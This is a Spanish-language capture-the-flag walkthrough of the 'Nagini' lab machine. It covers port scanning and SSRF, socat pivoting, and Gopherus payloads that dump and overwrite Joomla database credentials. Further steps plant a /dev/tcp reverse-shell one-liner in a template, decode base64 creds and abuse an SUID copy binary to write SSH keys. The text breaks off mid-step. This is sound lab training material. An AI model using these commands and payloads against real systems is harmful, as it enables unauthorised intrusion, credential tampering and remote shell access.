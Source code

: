 [[10.10.0.4 (Aragog)]]
- Pwned #Nagini
`#CSRF` `#HTTP3`
Hacemos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos agilizar la búsqueda mas si usamos un secuenciador junto con xargs
`seq 1 65535 | xargs -P 700 -I {} nmap -sT -Pn -p{} -open -T5 -n -v 10.10.0.5 | grep "tcp open"`

Navegaremos a la pagina web que nos muestra que esta levantada en el puerto `80`
Vemos información sobre la web con la herramienta con [[WHATWEB]]
`whatweb http://10.10.0.5/`
```python
http://10.10.0.5/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.0.5]
```

Vamos a hacer fuzzing sobre la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://10.10.0.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`
Este nos encontrara los siguientes ficheros
`index.html`
`/joomla`
`note.txt` con el siguiente contenido:
```txt
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

Esto nos indica que se esta usando `HTTP3` que es la tercera versión de HTTP utiliza un puerto UDP
Usaremos la herramienta de quiche con la tool de `./http3-client` como en esta caso no conseguía utilizarla seguí el siguiente paso del video en el que se descubre la ruta:
`/internalResourceFeTcher.php` así que accedemos a ella desde el navegador

Vemos que la URL esta en método get, así que usando la opción 
`?url=` podremos traer al navegador actual por ejemplo llamar a `http://localhost` nos muestra la web del localhost, al igual que podemos cargar la web de la maquina [[10.10.0.4 (Aragog)]] aunque no cargue la imagen. Esto acontece un SSRF (Server Side Request Forgery) y lo podemos usar para enumerar los puertos y servicios internos de la maquina.

Para poder tener conectividad con nuestra maquina atacante lo que haremos sera descargar `socat` y nos lo trasferiremos a la maquina intermedia 192.168.1.23  [[10.10.0.4 (Aragog)]]
Le daremos permisos de ejecución y ejecutaremos la herramienta de la siguiente forma:
`./socat TCP-LISTEN:4343,fork TCP:192.168.1.19:80`
Estamos indicando que todo lo que se pida por el puerto 4343 lo envié a través de la ip de 192.168.1.23  por el puerto 80

En nuestra maquina atacante levantaremos un servidor con python y desde la web de la maquina [[10.10.0.5(Nagini)]] en la url encontrada probamos a acceder a la maquina [[10.10.0.4 (Aragog)]] por el puerto 4343 que es el que le hemos indicado en socat

Ahora desde dentro de la url como tenemos levantado nuestro servidor de python y habilitado todo lo que es el pivoting y el renvió de paquetes intentamos acceder por la url a u8n archivo que creemos en nuestra maquina atacante que se llame `pwned.php` y ver si lo interpreta.

Como no lo interpreta, también encontramos el directorio `/joomla` así que navegamos a el. Usaremo0s la herramienta joomscan para hacer enumeración de vulnerabilidades.
`joomscan -u http://10.10.0.5/joomla/`

La respuesta de la ejecución de esta herramienta nos muestra que esta expuesta la interfaz del administrador `http://10.10.0.5/joomla/administrator/`

También nos encuentra un archivo .bak `http://10.10.0.5/joomla/configuration.php.bak`
Nos lo intentamos descargar para ver su contenido con: `curl -s -X GET http://10.10.0.5/joomla/configuration.php.bak > configuration.php`

Vemos que es un archivo de configuración de la base de datos
Usaremos `gopher` que te permite enumerar bases de datos desde `gopher://` 
Nos clonaremos el repositorio: `git clone https://github.com/tarunkant/Gopherus`
Le damos permisos de ejecución al archivo .py y luego hacemos un enlace simbólico para poder llamarlo desde cualquier parte del sistema: `ln -sf $(pwd)/gopherus.py /usr/local/bin/gopherus`

Ejecutaremos la herramienta con:
`gopherus --exploit mysql` introducimos el nombre de usuario que hemos encontrado en el archivo .bak
Ahora deberemos indicar que QUERY queremos ejecutar por ejemplo, enumerar las bases de datos:
`SHOW databases;`
Y nos muestra una URL a la que podemos acceder desde el navegado donde esta la web que nos permitía inyectar URL en `http://10.10.0.5/internalResourceFeTcher.php`
Tendremos que recargar la pagina varias veces hasta que nos muestre la información, vemos que hay una base de datos llamada joomla, así que ahora enumeraremos las tablas de esa base de datos.
Volvemos a usar el usuario encontrado pero en la QUERY usaremos: `USE joomla; show tables;`

La URL que nos muestra, la volvemos a copiar y la metemos en la pagina de `http://10.10.0.5/internalResourceFeTcher.php` y vemos que hay una tabla de usuarios `joomla_users`

Ahora enumeraremos esa tabla con la misma herramienta y la QUERY: `USE joomla; describe joomla_users;`, vemos que hay columnas de usuario, mail, password, etc...

Nuestra nueva QUERY será: `USE joomla; select name,username,email,password from joomla_users;` y nos mostrara la contraseña del usuario administrador de forma crakeada:
`$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay`

Intentaremos crakearlas con [[JOHN THE RIPPER]]: `john --wordlist=/usr/share/wordlists/rockyou.txt hash` 
No vamos a conseguir crakearla así que intentaremos alterar los datos de los usuarios atreves de la herramienta de Gopherus con la siguiente QUERY: `USE joomla; update joomla_users set password='482c811da5d5b4bc6d497ffa98491e38' where username='site_admin';`

El hash de MD5 lo hemos creado a través de la siguiente ejecución: `echo -n "password123" | md5sum` 

Lo volvemos a meter en nuestra web en la que estamos trabajando y nos dice que se ha ejecutado un cambio, ahora en el panel de administración de joomla en la parte del login intentamos acceder con el usuario `site_admin::pasword123` y conseguiremos acceso al panel de administración.

La intrusión se realiza a través de los templates, alojados en la pestaña de Extensions, y se modificara la plantilla de `erro.php`
En la plantilla realizaremos un oneLiner para traernos una bash a nustra maquina atacante, pero como no llega lo tenemos que enviar al nodo mas cercano que en esta caso es [[10.10.0.4 (Aragog)]]:
`system("bash -c'bash -i >& /dev/tcp/10.10.0.4/1111 0>&1'");`

Guardamos el archivo dándole a save. 
Nos conectaremos por SSH a la maquina ARAGOG `ssh root@192.168.1.23`
En nuestra maquina nos pondremos en escucha por el puerto 443 `nc -nlvp 443`

Ahora en la maquina ARAGOG usaremos el socat para redirigir todo el trafico que le entre a ella por el puerto `1111` que lo redirija al `443` de nuestra maquina atacante que es donde estamos nosotros en escucha.

Obtendremos una shell, entonces realizaremos un tratamiento de esta.

Vemos en los home de los usuarios y el usuario `snape`, tiene un fichero `.creds.txt` que contiene la contraseña de su usuario en base64 así que la decodeamos: `cat .creds.txt | base64 -d; echo`
Nos dará como respuesta `Love@lilly`

En el directorio del home de `hermoine` hay una ruta a `./bin/su_cp` con permisos SUID
Es una copia de binario copy del propio sistema, esto nos puede permitir copiarnos archivos a rutas en los que no tenemos capacidad de escritura con el usuario hermione.

Así que vamos a copiarnos nuestra clave publica en el directorio `/tmp/authorized_keys` 
Ahora nos aprovecharemos del binario SUID realizando una copia de ese archivo en el home de hermoine:
`./su_cp /tmp/authorized_keys /home/hermoine/.ssh/authorized_keys`

Ahora si nos salimos de la maquina nos podremos conectar por ssh: `ssh hermoine@10.10.0.5` y obtendremos una shell como el usuario hermoine

En el directorio home de este usuario vemos que hay un directorio `.mozilla/firefox` el cual almacena un perfil de un usuario 




















